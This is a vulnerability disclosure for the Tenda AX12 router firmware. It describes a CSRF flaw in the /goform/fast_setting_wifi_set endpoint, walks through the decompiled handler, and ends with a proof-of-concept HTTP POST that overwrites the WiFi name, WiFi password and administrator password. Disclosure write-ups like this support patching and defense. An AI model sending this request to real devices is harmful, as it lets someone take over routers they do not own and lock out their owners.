

## Vulnerability description

Affect device：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Restore the device to factory settings, modify the login background password, and modify the WiFi name

## Vulnerability cause

This vulnerability occurs under the /goform/fast_setting_wifi_set interface. This interface is actually an interface for resetting the WiFi name and password after the device is restored to factory settings.
We can control the incoming web parameters to achieve the effect of modifying the WiFi name and password, and in this function, because it is a reset function, it will not be compared with the previous password.

This interface corresponds to the processing function sub_4335C0.

First, get the ssid, determine whether it is empty, and then if the WiFi password is not empty, it will be encrypted by psk-mixed by default, then give the WiFi name, encryption method, and password to v17, and then call tapi_set_wificfg, guessing it should be setting the WiFi password , and then set 5g in the same way.


Then it is to set the administrator password, first get the parameter loginPwd passed in from the front end, and then set it in the /etc/config/admin file, the following are some irrelevant if judgments, it feels useless, and the administrator password has been written into it admin file.


## POC

If there is a valid cookie, we can construct parameters to achieve the purpose of modifying the WiFi name password and administrator password.

```http
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 10
Origin: http://192.168.0.1
Connection: close
Cookie: password=xxxxxxxxxx
Referer: http://192.168.0.1/main.html

ssid=xxx&WrlPassword=xxx&power=high&loginPwd=(md5(xxx))
```

